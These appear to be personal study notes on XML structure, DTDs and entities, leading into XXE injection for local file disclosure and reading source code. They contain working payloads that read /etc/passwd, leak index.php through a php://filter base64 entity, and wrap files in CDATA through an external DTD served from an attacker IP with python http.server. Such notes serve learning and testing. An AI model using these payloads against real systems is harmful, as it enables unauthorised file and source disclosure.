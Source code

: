 
## XML

- flexible transfer
- storage of data and documents
- formatted by tree structure



|Key|Definition|Example|
|---|---|---|
|`Tag`|The keys of an XML document, usually wrapped with (`<`/`>`) characters.|`<date>`|
|`Entity`|XML variables, usually wrapped with (`&`/`;`) characters.|`&lt;`|
|`Element`|The root element or any of its child elements, and its value is stored in between a start-tag and an end-tag.|`<date>01-01-2022</date>`|
|`Attribute`|Optional specifications for any element that are stored in the tags, which may be used by the XML parser.|`version="1.0"`/`encoding="UTF-8"`|
|`Declaration`|Usually the first line of an XML document, and defines the XML version and encoding to use when parsing it.|`<?xml version="1.0" encoding="UTF-8"?>`|


## XML DTD

- specify structure for server to respond 
- response by server is structured using DTD



- consider this ==scenario==
```
client => request(XML format to fetch resource) => server
server => responds(XML format) => client
```

- response of server
```
<?xml version="1.0"?>
<!DOCTYPE response SYSTEM "response.dtd"> <-- external dtd -->
<response>
    <status>200 OK</status>
    <data>
        <message>Welcome to our website!</message>
        <user>
            <name>John Doe</name>
            <email>john.doe@example.com</email>
        </user>
    </data>
</response>

```
- response.dtd 

```
<!ELEMENT response (status, data)>
<!ELEMENT status (#PCDATA)>
<!ELEMENT data (message, user)>
<!ELEMENT message (#PCDATA)>
<!ELEMENT user (name, email)>
<!ELEMENT name (#PCDATA)>
<!ELEMENT email (#PCDATA)>

```


- client can verify the response using DTD specfied in DOCTYPE declaration => accessible via url (external dtd)
- structure specified in response itself(internal dtd)
- ==why client validate?== => data integrity


## XML Entities


 - XML variables
 - reduce repetitive data
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

- use `&company;` to replace values of variables

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```


- the above are external entities


# Local File Disclosure


- take external entities in account
- test internal entity => check value reflected in response

![[Pasted image 20240710194541.png]]


- internal entity success move to reference external entity (`/etc/passwd`)
- use `system` keyword to fetch system files

![[Pasted image 20240710194715.png]]


# Reading Source Code

![[Pasted image 20240710194832.png]]

- ==not displayed why??== => not in a proper XML format (may contain xml spcl chars)

![[Pasted image 20240710194939.png]]

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

==php filter woks only php backend application==



- **what if other technologies used in backend?**
	- cant use php filter to extract data ( using because of xml format breakage )
	- To output data that does not conform to the XML format wrap the content of the external file reference with a `CDATA` tag (<`![CDATA[ FILE_CONTENT ]]>`)
	-  `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`
	- place between `begin` and `end`


```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.15.108:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

....

<email>&joined;</email>
```

add xxe.dtd contents as entity reference

```shell-session
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```



